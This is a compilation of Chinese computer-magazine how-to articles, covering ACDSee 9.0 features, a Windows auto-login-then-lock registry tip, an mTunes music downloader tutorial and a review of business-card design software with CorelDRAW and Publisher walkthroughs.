如图6，在该界面窗口的右部分可看到“自动类别”面板，单击“常用”或“相片属性”前“+”框，可打开其下列表，单击其列表项前的复选框来选择图片。


### 6. 新功能之六：“陈列室”——个人的展览馆

“ACDSee 陈列室”功能可以将你喜爱的图片直接呈现在桌面上。设置图片的文件夹路径，会出现一个小巧的可移动窗口，以幻灯片的模式按顺序显示图片，你可以一边做别的事情，一边欣赏图片。

如图7，在该界面窗口中，单击菜单栏中的“创建”菜单，单击“创建ACDSee陈列室”选项。则会在桌面上呈现一个灵活小巧的可移动的窗口，自动连续播放在图7路径中的图片。



### 7. 新功能之七：“组合方式”——高效的逻辑显示法

“组合方式”功能特点即在于按一定的逻辑结构显示图片，提供一个强大新颖的方法来整理图片——设立子集，可以在更详细的分组内排序与查看相片，使图片查看更有效率。



如图8，在该界面窗口的中间面板部分单击“组合方式”选项，单击你需要的关键词，按其逻辑结构显示子集。图为按“文件名”关键词所显示的图片。

### 8. 新功能之八：“过滤方式”——专家标准，分级查看

“过滤方式”可以使显示指定给特定评级或类别的相片更加方便。

如图9示，单击该界面窗口中间部分面板上的“过滤方式”，选择需要的级别，则ACDSee将会按照所选级别来显示图片。

在此也顺便提一下为图片评级的方法：选中一幅图片，将其拖动到界面窗口（见图9）右部分的评级面板中相应的级别处即可。

综述：相信通过上文的叙述，各位朋友应该对ACDSee 9.0版的基本使用和新功能有了一定的了解。正如古人所说：文不尽言，言不尽意。有关ACDSee 9.0版强大的图片管理功能，更多携新功能归来的ACDSee 9.0的“王者风范”，还需你亲自体会！



# 登录全自动 安全又省心

文/flp (摘自.blog.cfan.com.cn)

每天早上到了公司，第一件事就是开机，接着输入Windows登录密码，这样系统组件、自启动软件才开始运行并载入，这个过程往往要超过5分钟，那能不能一开机，什么也不用管，先倒杯水，擦擦桌子，然后只要输入Windows登录密码，就能正常使用电脑呢？也就是在输入系统登录密码前就让电脑自动载入所有系统组件和自启动软件。

- 第一步：到 http://download.microsoft.com/download/f/c/a/fca6767b-9ed9-45a6-b352-839afb2a2679/TweakUiPowertoySetup.exe 下载微软的系统辅助工具——Tweak UI。
- 第二步：点击“开始→程序→Powertoys for Windows XP→Tweak UI”启动程序，接着按照如图所示进行设置。


提示：感谢七·夜提醒，前面两步不用下载软件，只要按下Win+R组合键，输入control userpasswords2，回车后即可打开用户账号窗口，去掉“要使用本机，必须输入用户名和密码”的勾选即可。
- 第三步：点击“开始→运行”，输入“regedit”，回车后打开注册表编辑器，找到[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run]，在右侧窗格新建一个名为“Lock Computer on Startup”的字符串值，将其值设置为“rundll32.exe user32.dll, LockWorkStation”。

## 搜索下载播放的全能战士
## mTunes PC版使用教程

文 / TMG xl

如今国内的音乐发烧友数量急剧上升，人们逐步将享受音乐的风潮燃到手机、MP3等随身USB接口设备上。对于追求时尚的我们，音乐下载软件的实用性、便捷性以及免费服务是我们选择软件的主要诉求。毋庸置疑，中国是一个P2P软件盛行的天堂。在这样的大背景下，mTunes系列软件为我们带来了新USB音乐时代的福音，在整合USB同步数据传送功能的同时，mTunes几乎集成了现行P2P音乐下载软件的全部功能，无愧于“全能战士”的称号，笔者将在本文向各位详述mTunes PC版的使用方法，让我们一同领略全能战士的风范吧。

mTunes PC 下载地址：http://dl.pconline.com.cn/html_2/1/119/id=42944&pn=0.html

看到 mTunes PC 清新又不失规整的界面风格（如图 1），笔者相信你一定会立刻爱上她。mTunes PC 是一款不含任何插件的绿色软件，体积小，运行占用系统内存小，此外，她整合了下述一箩筐的强大功能，足以满足用户的日常音乐下载工作：



- 音频、视频播放和管理
- 支持播放列表管理
- 歌词自动获取和同步显示
- 可搜索互联网上所有 MP3，快速返回搜索结果
- 可在线试听，连续在线播放
- 支持下载测速和速度评级
- 支持断点续传和多线程下载，全面优化下载速度
- 全方位的音乐排行榜
- 本地文件搜索
- 支持 CD 转换为 MP3
- 支持手机及 USB 设备
- 轻松把歌曲同步到手机及 USB 设备
- 把播放列表同步到安装了 mTunes PC 版的手机
- 可下载铃声和设置彩铃

由于笔者是孙燕姿的忠实 FANS，所以本文就《逆光》这首歌为例，和大家探讨一下 mTunes 的使用。

## 一、mTunes 的安装与设置

### 1. mTunes 的安装

首先是安装 mTunes，安装程序下载到硬盘后，发现软件如介绍的，占用系统内存小，大小只有不到 6MB。

双击图标开始安装。首先会弹出软件介绍窗口，单击“下一步”继续。接下来弹出含有许可协议的窗口，单击“我接受”按钮进入下一步。在此步窗口中，可以在“目标文件夹”选项区域内单击“浏览”更改软件的安装文件夹。然后再下一步窗口中更改 mTunes 在开始菜单中显示的文件名称，如不需要修改的话，直接单击“安装”按钮开始 mTunes 的安装。至此安装全部结束，单击“完成”运行 mTunes。

### 2. mTunes 安装后的设置

进入 mTunes 软件主界面，可以看到 mTunes 顶部的菜单栏，囊括了 CD 光盘转换在内的几乎全部功能，左上角的播放快捷键也是极为贴心的设计，同时左下角的选项区域涵盖了“我的音乐”、“我的视频”、“音乐商店”、“搜索风云榜”、“本地查找”等标签，软件设计的人性化方面可见一斑。

我们首先来到设置菜单，所谓“军队未动，粮草先行”嘛。

单击菜单栏“设置”可以看到 mTunes 的用户功能，单击“注册新用户”（如图 2），笔者用自己的手机经过确认码的验证，完成了注册，相信这是mTunes“音乐商店”和“订购彩铃”功能所必需的步骤，完成注册后你就成为美通无限的在编客户了。



重复前一步操作，单击“设置”选项，来到设置窗口，可以发现它的左侧具备三个标签。

“常规选项” —— 在这个窗口用户可以修改程序的启动、运行与更新。

“搜索和下载选项” —— 在本窗口你可以修改下载结果的获取、文件保存目标文件夹和下载线程、重试次数等选项。

“网络选项” —— 此标签窗口用于设置服务器，对于大多数宽带接入的用户可以省略本项。至此为止，万事俱备，我们要开始《逆光》的下载旅程！

## 二、mTunes特色功能使用实例

### 1. 下载歌曲

在mTunes的窗口右侧有一个放大镜的图案，在它一侧的文本框内键入“逆光”，单击“放大镜”图标，开始搜索。

“搜索”开始后mTunes会自动转到搜索风云榜界面，可以在上方的表格中看到歌曲搜索的结果，笔者我实测搜索速度大概在1~2秒左右，对于一个1.0版本的新软件来说，mTunes搜索支持做得很不错。选择一个歌曲链接，右击出现菜单，在这里用户可以自由选择“试听”、“下载MP3”以及“定购铃声”等相关功能，相当方便。笔者单击“下载MP3”选项后，下部的表格中即出现下载的进度，可以看到mTunes的下载速度相当令人满意。

在上下两个表格的分解图中我们可以看到（如图3），搜索结果的窗口除了常规选项外有一栏为“下载速度”，这是与mTunes的支持下载速度评级功能相符合的，用户可以根据mTunes给出的速度等级选择最佳的下载链接。在下部的“下载列表”表格中，每个属性都很合理化，同时在表格右上角设有快捷按钮，方便用户随时暂停和开始下载。

| 标题 | 歌手 | 专辑 | 文件大小 | 下载速度 | 下载地址 |
|---|---|---|---|---|---|
| In the beginning | 刘德华 | 1.0 | 3.20 | 4/5 (200 KB/S) | http://www.***.com/downfile.php?id=*** |
| 安静 | 周杰伦 | 1.0 | 3.10 | 3/5 (150 KB/S) | http://www.***.com/downfile.php?id=*** |
| 在那遥远的地方 | 王洛宾 | 1.0 | 2.15 | 4/5 (200 KB/S) | http://www.***.com/downfile.php?id=*** |
| 爱我中华 | 韦唯 | 1.0 | 3.50 | 5/5 (250 KB/S) | http://www.***.com/downfile.php?id=*** |

mTunes是支持断点续传功能的，因此如果在未完成下载任务之前就关闭软件，再次启动时mTunes会自动进入下载状态，并且不影响下载速度。用户在实际使用时要注意一个问题，有时候在mTunes下载过程中出错的文件会保留在硬盘上，而不能用mTunes永久删除，需要用户自己到硬盘手动删除，这是软件不成熟的地方，毕竟mTunes还年轻。

### 2. 传输到USB设备

你是不是和笔者一样为了向手机传送歌曲而倍感头痛呢？如今你只需要运用mTunes的USB同步功能，在下载歌曲的同时把文件同步到手机上。并且如果你的手机上安装了mTunes的手机版，那么自建的播放列表也可以同步过去了！

第一步我们要将手机（或其他USB设备）与电脑相连。

笔者将自己的摩托罗拉E398多媒体手机与电脑相连，在手机连接到电脑以后，mTunes的左边会多出一栏名为“***手机”，下面有“我的视频”和“所有歌曲”两个选项，单击“所有歌曲”后能看到手机中所存储的全部歌曲，mTunes会自动识别存储卡中的MP3文件。右边的窗口会显示该手机的生产厂商和磁盘空间状况。只需选择“我的歌曲”下的MP3文件即可传送至手机内存（如图4）。



如果你想继续向手机传送自己在mTunes建好的播放列表，可以先在手机上安装mTunes的手机版，然后右击“我的歌曲”下的某个播放列表，选择“同步‘播放列表’到设备”，mTunes就会自动将你选择的播放列表中的MP3文件同步到你的手机中。传送完成后，在手机信息的界面，将显示“传送成功”字样。用户也可以通过mTunes对手机内存下的某个文件进行永久删除。mTunes的这一重要功能极大地地方便了广大音乐手机用户。

## 三、mTunes的其他功能使用

### 1. 音频、视频播放和管理

单击mTunes主界面左边的“我的歌曲”标签可以看到用户硬盘上已存在的MP3文件。同样，“我的视频”标签可以对已有的视频文件进行管理，目前mTunes自带的播放器支持包括asf、wmv、avi、mpg、mpeg、mp4、3gp等视频格式。另外，单击“搜索风云榜”标签，mTunes会为你罗列热门歌手和歌曲的搜索记录。

在播放界面下，右边主窗口会随歌曲名显示包括歌手名、流派、专辑、文件大小、时长等全面的文件信息。播放列表的下面的窗口为下载列表，显示下载队列中文件的标题、进度、速度、剩余时间等信息。下面我们就来尝试使用 mTunes 的播放功能。首先可以右击“我的歌曲”标签，选择“添加文件到我的歌曲”或“添加文件夹到我的歌曲”，这两个选项可以将用户硬盘上的歌曲添加到 mTunes 的媒体库中（如图5）。



添加完成后我们就可以播放自己喜欢的歌曲了，值得一提的是 mTunes 会自动记录你的播放次数，你也可以用星级指标对歌曲的质量进行评级，并可以按以上两个属性对歌曲进行排列。在播放歌曲时，窗口的左下角会出现同步滚动的歌词。

视频播放的步骤基本与歌曲播放一致，笔者播放 MP4 格式的《因为是女子》MTV，播放的窗口出现在整个界面的左下角，无论启动速度还是画面质量均令人满意。在视频播放的表格中，除了延续歌曲播放中的“播放次数”、“质量评级”的属性外，还添加了视频文件的“宽度”“高度”等属性，方便用户全面地掌握视频文件的信息。

### 2. 播放列表管理

如果你是一个音乐发烧友，你的电脑一定有成千上万首 MP3。那你一定想拥有一款软件帮你管理这些 MP3 文件，让你可以随时、快速地找到自己想要的歌曲。现在好了，mTunes 可以帮你解决一切。

你可以先把本地歌曲添加到 mTunes 当中，然后根据个人爱好建立品类繁多的播放列表。在听音乐时，只需要单击适合的播放列表即可。

下面建立播放列表，单击菜单栏的“文件”菜单，选择新建歌曲播放列表。你也可以单击最左下角的“+”来建立播放列表。试试看，想建多少个播放列表，就建多少个吧！在选择建立播放列表后，在“我的歌曲”下会出现一个新的播放列表，此时你可以为这个播放列表命名，如“逆光”。完成后，右击这个新建的列表，在弹出窗口中，选择“添加文件夹”或“添加文件”。选择好文件或文件夹，单击“确定”，所选的歌曲就会加到这个播放列表下。播放时，只需双击播放列表即可，同样在播放界面下会看到所有歌曲的标题、艺术家（歌手名）、唱片集、流派、时长、文件大小、比特率等信息，最后可以根据你对歌曲的喜爱程度分五个等级进行评级。

另外，在播放器右上角设有四个按钮，单击第一个按钮可以将 mTunes 转换为迷你形式，减少桌面的占用空间（如图6）。


### 3. 全方位的音乐排行榜

单击左侧的“音乐商店”标签，你可以在这里查阅 mTunes 为你提供的最新最酷的音乐排行榜，注册的用户可以在这里购买喜欢的手机铃声。同时排行榜也分为 MP3 排行榜和热门搜索排行榜两类，供用户选择。

### 4. 本地文件搜索

文件多了难免为查找而愁，全能的 mTunes 当然会为你解决这个麻烦。单击 mTunes 右侧的“本地查找”标签，只需要在“请输入本地查找关键字”一侧的文本框中键入你要查找文件的相关信息，mTunes 将在第一时间反馈你结果。“本地查找”会根据用户的输入，从歌曲名、歌手、唱片集、流派等多方面信息中模糊查找。

### 5. 搜索风云榜

用户在使用中会抱怨每次搜索的输入过程。mTunes 为我们提供了“搜索风云榜”功能，单击标签会发现其下能够显示搜索的历史记录，单击后显示相关搜索结果，如果单击“搜索风云榜”会显示最热门的歌手列表，单击后显示该歌手能搜到的所有歌曲。

### 6. 将CD转换为MP3

mTunes 是无所不能的，要把 CD 音乐光盘的歌曲转为 MP3 纳为已有，它当然不在话下！你只需放入 CD 光盘，单击菜单栏中的“CD 光盘”菜单，一切由 mTunes 为你搞定。

### 7. 下载铃声和设置彩铃

如果你已经按照前文的讲解对自己的手机号进行了注册，mTunes 便可以为你提供手机铃声下载和彩铃设置的功能，你可以通过 mTunes 来实现，也可以直接登录美通无限的官方主页 http://www.m-tunes.com.cn/ 咨询相关服务。

综述：我们可以概括 mTunes 的特点为：体积小、使用便捷、下载迅速、功能强大。笔者为她命名为“全能战士”，当之无愧。她不仅仅是 P2P 的下载软件，而且是一款真正意义上的音乐全能管理专家。

## “面子工程”：精美名片设计技术完全攻略

文 / 彭文波

在人与人交往日益频繁的现代社会，名片的作用也越来越大。通过设计精美的名片，人们可以宣传自我、宣传企业，在最短的时间内获得所需要的重要信息。一张设计独特的名片，可能会给你带来意想不到的商机，增加更多的人脉。可见，尽管只有方寸之间，名片的学问却很大。因此，名片设计必须从其实际功能出发，做到文字简明扼要，字体层次分明，艺术风格独特新颖。在本专题中，通过设计方法和设计软件的有效结合，由浅入深，使用户轻松掌握设计名片的技巧，甚至可以开个属于自己的“名片设计店”。

## 基础篇：名片知识和入门软件

名片设计的基本要求应强调三个字：简、准、易。其中，“简”表示名片传递的主要信息要简明清楚，构图完整明确；“准”表示要注意质量、功效，尽可能使传递的信息准确；“易”表示便于记忆、识别。因此，设计名片之前，首先要了解持有者的身份、职业，了解持有者的单位及其单位的性质、职能，了解持有者及单位的业务范畴。这样，才能进行更具针对性的设计。

### 一、名片的构成要素、图案和基本设计原则

#### 1. 名片的构成要素

在一张小小的名片中，构成名片的各种素材包括了标志、图案、文案等。这些素材各赋有不同的使命与作用，统称为构成要素。对于不同的构成要素需要在设计中各就其位，依据其类型确定其设计重点。

**小技巧：**

名片的构成要素主要有两类：

- ①属于造型的构成要素。例如，用图案或文字造型设计并注册的商标或企业标志、形成名片特有的色块构成、几何边框等。
- ②属于文案的构成要素。例如，名片持有人的姓名及职务、名片持有人的单位及地址、通讯方式、业务领域等。

#### 2. 名片的图案

以横式名片为例，其尺寸一般为90mm × 55mm。在这个小小的天地里，图案的作用十分独特，它能够吸引注意力、传递名片持有者的职业特性及行业特征，能够引导读者把视线引至所要传达的重要信息。同时，在设计的过程中，需要把握整体风格，不能喧宾夺主。

**小技巧：**

名片内容构成的形状有很多种，可以根据不同的场合进行灵活运用。比较典型的有：长方形构图；椭圆形构图；半圆形构图；左右对分形构图；斜置形构图；三角形构图；轴线形构图等。

#### 3. 名片的基本设计原则

和其他作品一样，设计名片时还必须遵循一定的美学规则。

##### （1）均衡美

均衡是力与量的视觉平衡，它来源于自然事物在力的状态下稳定存在的视觉感受，所以在设计中是设计要素在总体配比中的平衡统一，是利用设计要素的虚实、气势、量感等相互呼应和协调的整体效果。在名片设计中，整体构图的均衡是需要重点思考的设计要素，因为它具有构成的完整趋向。

##### （2）对称美

对称是有机生命的完美的形式体现，它给人的视觉感受是庄严、秩序、安静、平和。名片设计中所应用的对称方式大多是近似对称。因为名片设计的形式决定于名片的性格特征，所以一般政府机构、行业或企业领导者的名片采用对称式构图。

##### （3）对比、变化与调和、统一

尽管名片的尺寸不大，但是如果只注意局部的变化，而缺乏对全画面的考虑，小小的画面也会凌乱、琐碎。反之，如果只注意整体调和与统一，画面就会呆板、乏味。

## 二、名片DIY：实用小巧的制作软件

了解了基本的设计原则，我们就可以小试牛刀了，通过自己设计、编排获得精美的名片。现在，网络上的名片编辑制作软件很多，各个软件的功能也参差不齐，如何才能更快、更好地制作出适合自己风格的名片呢？下面，结合各大站点的下载情况及用户人气，选择其中几款优秀的名片制作软件进行对比测试。

#### 1. 名片制作专家

推荐指数：★★★★★

软件下载地址：http://www.skycn.com/soft/26988.html

“名片制作专家”操作简单方便，可以使用图片、文字、直线等元素轻松构建个性化名片，并能在几分钟内设计并打印名片。软件内置数十个模版，支持模版保存功能，支持再次编辑功能。

##### （1）软件界面

软件主界面简洁有序，左侧是编辑预览区，右侧是功能设置与编辑区，在这里列出了名片上所有需要编辑的位置；在操作的时候，还会在主界面下方出现提示语句，即使是菜鸟也可以轻松使用。右侧是编辑的相关功能按钮和参数，不过版面稍显拥挤。

##### （2）图像库资源

内置了许多标志和背景图片，尤其值得一提的是软件支持自定义功能，可以自定义图像为背景或是标志，使软件功能得到很大扩展。同时，背景色还支持渐变功能。

**小技巧：**

- ①底图布满版面，如果整版颜色太强烈的话，有时会太过于抢眼，观看者的目光不易集中在文字区。
- ②摆在中间横穿整个版面，上下两头留空，这样做文字比较容易突出。也可以上下两做成过度透明，让图案不会显得那么突兀。
- ③如果需要将位图布满整版，文字不易编排时，单位用粗体字做成反白，在摆放地址的地方做个半透明的块，人名和地址一起摆透明块里，也不失为一种办法。
- ④如果两张不相融的图硬要摆放在一起时，可以把不太重要的那个做成浅底。
- ⑤可以将图摆在四周的任何一边，边缘做透明处理，视觉效果也不错。
- ⑥如果不想做更多的处理，也可直接摆在一个角就行了。
- ⑦如果想突出某一个能显示主题的图，可将图摆在名片中心位置，文字部份摆在一个角落。巧妙的编排一下文字位置和大小，让它多一点艺术感。

##### （3）名片编辑功能

软件也支持“所见即所得”功能，编辑名片时可以通过向导式的按钮来完成，分别点击右侧的各个按钮，输入相应的内容就会轻松的自动生成名片了。在定位上，可以方便的拖到名片上的各个元素到合适的位置，拖动元素时会在名片上显示当前图像的坐标，以参照拖动位置。软件还提供了对齐功能，选择要对齐的对象，然后点击对齐方式就可以了。如图 1 所示。

##### （4）打印保存功能

软件的打印功能非常强大，可以设置每张名片的边界及间隔，同时还可以设置打印质量、份数等。另外，名片制作专家可以保存编辑好的名片为CRD模版或BMP图像。

#### （5）特色功能

能够批量调整元素，按住Ctrl键，然后用鼠标点击要选择的元素即可。

综合点评：“名片制作专家”可以通过向导式按钮完成所有操作，不但具有坐标功能，同时还可以对齐选中的名片各元素。软件功能实用，操作简单方便，扩展资源功能也很强大，适合入门用户使用。



#### 2. 方寸天地彩色名片制作系统 V1.2

推荐指数：★★★★★

软件下载地址：http://cardpro.chgan.com/

这是一款老牌专业名片设计系统，在 Windows 95 时代就已经有它的踪影了，并拥有一大批的用户。它不仅适应于名片设计，还适应于各种证件、卡片的制作。

##### （1）软件界面

软件界面简单而实用，没有多余的干扰元素。软件采用“所见即所得”的交互式设计方式，编辑界面的视野范围很大。选择相关元素后，即可出现针对该元素的配置功能。软件左边是名片中的设计元素，包含了常见图形和相关元素，使用时直接拖入编辑界面即可。

##### （2）图像库资源

模版功能是系统的一项重要的功能，它为用户提供了300多种常用名片的样式，可以直接套用，大大地方便了名片的制作。用户自己也可以将排版样式存储为模版，以便以后套用。要使用模版文件，单击“文件”菜单下的“调入模版”选项。在弹出的“选择模版”对话框中，选择模版的目录和模版文件，选择好文件后按“确认选择”即可。

##### （3）名片编辑功能

支持横式、直式不同的名片类型；支持各种图形设计，色彩填充、图案填充，色彩的渐变填充。支持图像排版功能。软件下方提供了对象工具条，主要功能包括：对象层次的移动，对象区域撑满名片区域，对象位置靠近名片边界等。如图 2 所示。

**小技巧：**

- ①使用大块实地加上特殊字体，整个名片即醒目，庄重，又不显单调。
- ②在古色古香的底纹中，运用书法字体，给人一种书香门第的感觉，非常静雅。
- ③行云流水般的字体配上的弧形实地，给人一种舒展的印象。

④字体也可在纸的中央或两旁，字号要大些，颜色稍浅，让人第一眼就看到你要表达意思的那个大字，第一印象非常深刻。

⑤素雅的纸张配上很少见的笔墨字体，设计非常简单但让人感觉舒服。

⑥选用粗大的字体，摆放时尽量斜一些，尽量拉大字号，让字体部分不超出版面，不要害怕别人看不懂，人的眼睛会习惯性的补齐这些笔划。

##### （4）打印保存功能

软件打印功能十分强大，支持全色打印、CMYK分色打印、专色分色打印等方式。可生成专业水准的分色版，适合于包含彩色图形、图案的名片的制作；对各种彩色分色版面均可进行打印前的预示。

##### 小技巧：

下面是名片打印的几种方式，分别是：全色打印、CMYK分色打印、专色分色打印。

- ①全色打印：完全打印排版版面中的所有对象和颜色，用于在彩色打印机上直接打印名片。
- ②CMYK分色：打印将所有对象和颜色按青（C）、品红（M）、黄（Y）、黑（K）四种标准印刷色分色，然后分四个色版打印输出。这种分色方式主要用于支持包含彩色图像名片的胶印印刷。
- ③专色分色打印是将排版对象的每种不相同的颜色分成一种色版打印。假如排版版面中包含黑色、红色、绿色、品红色，大红色，蓝色等六种颜色，专色分色将按这六种颜色分为六个色版，相同颜色的内容在同一个色版。

如果用胶印印刷，注意平时要养成将位图转成CMYK模式的习惯。

#### （5）特色功能

普通名片中包含彩色的商标，彩色的图案等，都可以采用专色分色打印方式，但需要设置图像对象为专色打印方式。

综合点评：方寸天地彩色名片制作系统功能强大，模版资源丰富，操作也十分简便。值得一提的是，软件打印功能十分强大，支持多种打印方式，对名片后期制作有很大好处。适合初、中级的用户。如果能够配合专业的图像设计软件，可以制作出优秀的作品。

#### 3. 专业名片、卡片、胸牌制作系统 Card Maker 5.1

推荐指数：★★★★☆

软件下载地址：http://cardmaker.flisoft.us

该软件操作方便，和Word界面比较类似，软件集名片、卡片、胸牌制作于一体，同时内置强大的图形库、图像库，有着强大的图形、图像处理能力，还有强大的数据库关联、交换能力和打印预览能力。

##### （1）软件界面

软件界面与Word相不多，最上面是菜单栏，接下来是工具栏，最下面的空白区域是编辑区，可以在这里编辑制作名片、卡片、胸牌等。设计时，单击“文件”菜单下的“模版”，选择名片样式，然后对相关信息进行修改。如图3所示。

##### （2）图像库资源

制作名片时，会使用许多图形与图像，软件内置图像库中图像的数量越多，编辑操作就会更加得心应手。专业名片、卡片、胸牌制作系统 Card Maker 5.1 中内置大量的图形库与图像库，包括基本线条、基本形状，箭头总汇、流程图、星与旗帜、标注、七大类彩色标徽与十大类黑白标徽等，总共近4000个图形图像。同时软件还支持导入图像文件功能。在程序的菜单中或右键菜单中，找到这些图像并将其插入卡片中。

##### 小技巧：

软件提供多种线条渲染方案（如线条粗细、两端样式、线型、颜色等）及图形填充方案（如渐变填充、颜色填充、图案填充），选中要编辑的图形后，在程序的主菜单或右键菜单中都可以找到这些功能。注意，如果没有选中图形，这些功能菜单就是灰色的。

##### （3）名片编辑功能

软件支持“所见即所得”功能，编辑名片和使用Word对文稿进行排版一样简单，可以在空白的文档上填写任何的文字、图像。同时，用鼠标点击图像或文字后，会在上面显示八个调整小方块，通过小方块可以随意的调整文字或图像的大小，也可以直接拖动文字或是图像的位置，能够使用该软件设计出任何形式的名片。

##### 小技巧：

在单位制作名片时，每张卡片上的姓名或者其他部门标志可能各不相同，这时需要用到图像关联数据库功能。软件数据库中存放了图像文件所在的全路径，关联数据库时要指定数据库中存放图像路径的字段。

##### （4）打印保存功能

Card Maker 5.1可以把编辑好的名片保存成扩展名为CRD的模版，以备日后再次编辑，也可以保存为JPG或BMP图像。软件提供了打印设置及打印预览功能，在打印之前可以预览名片。

#### （5）特色功能

Card Maker 5.1除了可以制作编辑名片外，还同时可以制作卡片、胸牌，另外还可以与数据库关联，把不同姓名、学号卡片一次性生成。

综合点评：专业名片、卡片、胸牌制作系统Card Maker 5.1内置图像数量丰富，编辑功能也很直观，软件提供了打印设置、打印预览功能，可以方便地看到打印后的情况。但操作略显繁琐，不太适合新手使用。

## 4. 名片编辑专家3.0

推荐指数：★★★★☆

软件下载地址：http://cardpro.chgan.com/

该软件可以快速设计制作个性名片，所有名片的元素，名片文字信息、图片、背景、页面等，都可以通过鼠标的点击完成，完全所见所得功能，具有打印、保存、个性化设置、名片管理等功能。

##### （1）软件界面

名片编辑专家主界面配置很合理，主界面非常简洁，与“名片制作专家”主界面比较类似，左侧是编辑预览区，右侧则是功能设置区，在这里可以对名片上的各个信息进行设置，软件支持所见即所得功能。部分按钮提供了提示功能，如图4所示。

##### （2）图像库资源

名片编辑专家没有提供标志，只是内置了几个背景图片。不过，该软件支持添加本地硬盘图片作为背景与标志的功能，同时还支持更改颜色来设置背景的功能。

##### （3）名片编辑功能

编辑名片时，可以通过点击右侧的各个功能按钮，然后后填写相应的内容来自动生成名片。不过该软件不能显示坐标，同时没有对齐功能，所以在操作的时候不易对齐，会出现错乱的问题。

##### （4）打印保存功能

只能保存当前名片为BMP格式的图像，保存后该名片就会保存到名片夹中，选择后就可以打印了。另外，软件支持名片管理，通过名片库可以方便地对名片进行分类。

#### （5）特色功能

名片编辑专家可以在标题栏根据自己的喜好，设置移动的文字。

综合点评：软件界面很紧凑漂亮，布置很合理，选择相应的编辑对象即可进行个性化设置。编辑过程中，具有丰富的提示功能。但是，软件没有提供对齐等功能，对相应元素进行编排时可能会不太方便。

通过学习上述软件和技巧，我们就可以制作出比较精美的名片了。不过，在很多名片设计店、专业打印店，依然习惯使用大型图像设计软件或工具，例如CORELDRAW等。这些软件在图片处理、特效等方面具有意想不到的效果。

## 提高篇：利用专业图像软件设计名片

下面，通过案例与技巧相结合的方式，进一步提高用户的设计技巧。

### 案例1：使用CorelDRAW12制作名片

被称为绘图大师的“CorelDRAW”是一个由加拿大Corel公司开发的矢量绘图程序，目前已广泛应用于广告设计、网页制作和平面设计等领域。其功能非常强大，界面也非常好学易用。现在，很多专业打印店都采用了此软件进行名片设计，软件最新版本是CorelDRAW12。从CorelDRAW9（中文版）开始，软件中集成了许多实用的程序，使得名片设计等工作可以十分容易完成。下面，介绍一个使用CorelDRAW制作商业名片的方法。

- 第一步：打开CorelDRAW软件，在此以最新的CorelDRAW12中文版为例。单击“文件”菜单下的“新建”选项，系统将建立一个名为“图形1”的文件。
- 第二步：选用工具箱中的矩形工具，在系统给定的纸张上面画一个矩形，调整大小为90 x 55mm（名片的成品外框），然后再在其内部重新画一个矩形，大小设为80 x 45mm（名片的有效印刷区）。按Shift键选中两个矩形，单击“排列”菜单下的“对齐与分布”，然后选择将两个矩形居中对齐。如图5所示。
- 第三步：在对象管理器中，单击右边的小三角形，选择“新建图层”，这时在对象管理器的窗口中会多出一个“图层2”的项目出来。用鼠标选取“图层1”，单击右键，在弹出的菜单中，设置“图层1”为不可编辑状态。

> 小技巧：为了编辑的方便，单击“窗口”菜单下的“泊坞窗”，选择“对象管理器”，这时会出现对象管理器面板。

- 第四步：选择“图层2”，在小矩形上排列文字或图形信息，再根据版面进行排版。
- 第五步：重新选择“图层1”，将其状态设置为可编辑。双击选择工具，将窗口的所有对象全部选中，剪切、粘贴，所有的对象则全部都放在“图层1”上面了。选中刚才做好的名片，按Ctrl+G快捷键或选择“排列”菜单中的“群组”，将其组成一个对象，以便后续工作操作方便。如图6所示。
- 第六步：将名片移到屏幕上的纸张（A4）左上角，按Alt+F7快捷键，弹出“变换”选项框。选中对象，在位置水平项中设定数值为100，再按一下“应用至再制”，即可在右边复制出一个相同的名片来，两者中间相距10mm。利用同样的方法，还可以复制多张名片，并将其摆放到纸张的中心。如果要名片的正反两面都印上文字，只需要按上面的步骤重新另起一个页面重做一遍就是了。
- 第七步：打印。因为打印时已经保留了外框线，所以打印完毕之后就可以依照那条线框进行裁切了。使用喷墨打印机进行打印，是我们个人用户最常用的选择，纸张使用白卡纸，铜版纸，布纹纸等都可以。另外在打印机即将打印的时候，应该正确的设置打印模式，不需要选择最高的分辨率，因为如果使用照片纸的分辨率到名片纸上，效果不会很好。

> 小技巧：在一些名片专业制作店里，排版工作和上述方法大同小异。如果印制量比较大，就需要根据要印的颜色制作PS版。在制版时和正式印刷机同原理，也是一个颜色出一个版，然后再进行套版印刷。另外，有些高档个人名片可能还需要进行烫金、烫银或压凸等工艺，就得另外在印刷版的基础上再出专用版。对于塑料和金属介质的名片，就只能使用丝网印刷的方法了。

### 案例2：用Publisher快速制作名片

MS Publisher 2003/2007是OFFICE2003/2007中的一个组成部分，安装Office 2003/2007时，可选择安装此软件。它可以帮助用户创建个性化的出版物和营销材料，而且比较适合快速制作名片。软件内置了大量的出版物布局样式，包括标准化的和非标准化的内容。下面，以MS Publisher 2003为例进行讲解。

- 第一步：选择预设的名片风格和版式。启动Publisher，在“新建出版物”任务窗格中，单击“书面出版物”，然后单击“名片”。在窗口右侧单击所需的设计。在此示例中，我们使用“怀旧式名片”。如图7所示。

> 小技巧：在“名片选项”任务窗格中，选择是否要包含徽标以及希望纵向还是横向显示。在此示例中，将选择无徽标及横向显示。在“每版份数”下，单击“一份”或“多份”。如果选择“多份”选项，那么默认情况下，Publisher将在每张纸上打印10张名片。

- 第二步：填写相关信息和元素。可以填写和名片相关的地址、电话等信息。如果找不到合适的图片，可以访问“剪贴画和多媒体”网站进行搜索。找到后，将其复制并粘贴到名片模版中。

> 小技巧：在“出版物设计方案”任务窗格中，单击“配色方案”和“字体方案”，以选择与营销素材的其余部分匹配的颜色和字体。如果将公司联系信息存储在个人信息集中，它将自动显示。要存储联系信息，可单击“编辑”菜单上的“个人信息”。

- 第三步：将图像从网站复制并粘贴到文档中。在“剪贴画和多媒体”搜索结果网页上，右键单击想要复制的剪贴画，然后单击快捷菜单上的“复制”，切换到Publisher文档，在要插入图像的位置单击鼠标右键，然后单击快捷菜单上的“粘贴”。

> 小技巧：可以自定义图像以满足业务的需要。例如，可以尝试更改图像的颜色。具体步骤如下：在“格式”菜单上，单击“图片”按钮。在“图片”选项卡上，单击“重新着色”按钮。使用“颜色”下拉菜单来更改图像的颜色。还可以尝试“亮度”和“对比度”来获取想要的效果。

- 第四步：进行名片的个性化设计。初步的名片效果是模版自动生成的，一定还有很多地方不能完全满足要求，可以结合其他图像设计工具进行适当修理。设置完毕后，将文件保存为BMP或其他格式。

